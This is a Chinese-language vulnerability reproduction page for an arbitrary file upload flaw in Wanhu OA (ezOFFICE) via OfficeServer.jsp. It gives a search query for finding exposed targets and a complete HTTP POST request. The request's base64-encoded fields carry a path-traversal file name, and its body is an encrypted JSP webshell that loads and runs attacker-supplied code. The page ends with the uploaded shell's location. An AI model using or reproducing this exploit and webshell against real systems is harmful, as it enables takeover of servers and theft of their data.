 # 万户OA OfficeServer.jsp 任意文件上传漏洞

## 漏洞描述

万户OA 除了 /defaultroot/officeserverservlet 接口外的另一处接口 OfficeServer.jsp 同时也存在任意文件上传漏洞，导致攻击者可上传任意文件获取服务器权限

## 漏洞影响

<a-checkbox checked>万户OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66-9184293.png)

发送请求包

```php
POST /defaultroot/public/iWebOfficeSign/OfficeServer.jsp HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: OASESSIONID=847AE3A2E5D155AE7FB1CD2C6736CD66
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close
Content-Length: 798
		
DBSTEP V3.0     170              0                1000              DBSTEP=REJTVEVQ
OPTION=U0FWRUZJTEU=
RECORDID=
isDoc=dHJ1ZQ==
moduleType=Z292ZG9jdW1lbnQ=
FILETYPE=Li4vLi4vcHVibGljL2VkaXQvY21kX3Rlc3QuanNw
111111111111111111111111111111111111111111111111
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634184155442-27890b10-20af-48cf-9032-fe50d08582f0.png)

上传后的目录为

```php
/defaultroot/public/edit/cmd_test.jsp
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634194405078-7d6f402f-9f16-43ae-b43a-8be6dbb48895.png)